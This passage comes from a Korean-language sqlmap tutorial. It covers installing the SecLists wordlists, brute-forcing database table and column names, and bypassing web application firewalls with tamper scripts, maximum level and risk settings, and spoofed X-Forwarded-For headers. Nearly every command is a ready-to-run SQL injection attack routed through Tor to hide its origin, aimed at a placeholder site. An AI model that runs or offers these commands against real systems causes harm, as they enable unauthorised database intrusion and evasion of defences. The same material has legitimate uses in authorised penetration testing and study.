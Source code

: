 
## 6. 워드리스트 활용

### SecLists 설치

```bash
git clone --depth 1 https://github.com/danielmiessler/SecLists.git
```

### 테이블 이름 브루트포싱

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --common-tables \
  -t ./SecLists/Discovery/Web-Content/common-tables.txt \
  --threads=2
```

### 컬럼 이름 브루트포싱

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --columns \
  -c ./SecLists/Discovery/Web-Content/common-columns.txt
```

---

## 7. WAF 우회 기법

### TAMPER 스크립트 조합

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --tamper=space2comment,charencode,randomcase \
  --level=5 \
  --risk=3
```

### 헤더 조작을 통한 우회

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --random-agent \
  --headers="X-Forwarded-For:127.0.0.1\nX-Real-IP:127.0.0.1" \
  --eval="import random; print('X-Custom-Header: %d' % random.randint(1000,9999))"
```

---

